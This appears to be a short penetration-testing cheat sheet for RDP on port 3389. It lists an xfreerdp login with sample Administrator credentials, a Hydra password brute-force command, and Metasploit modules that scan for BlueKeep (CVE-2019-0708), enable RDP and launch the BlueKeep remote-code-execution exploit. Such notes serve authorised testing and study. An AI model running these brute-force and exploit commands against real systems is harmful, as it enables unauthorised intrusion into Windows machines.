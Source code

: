 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# 3389 - RDP

## XfreeRDP

```bash
# Connect with AUTHENTICATION
xfreerdp /u:Administrator /p:password123 /v:$IP:$PORT
```

## Hydra

```bash
hydra -l "Administrator" -P /wordlists/passwords.txt rdp://$IP -s $PORT
```

## MSFconsole

```bash
# Checking RDP present, none default `port:3389`
auxiliary/scanner/rdp/rdp_scanner

# Enabling RDP
post/windows/manage/enable_rdp

# Scan OS, if it's vulnerable to bluekeep
auxiliary/scanner/cve_2019_0708_bluekeep

# Exploit the bluekeep (64 bit)
exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```
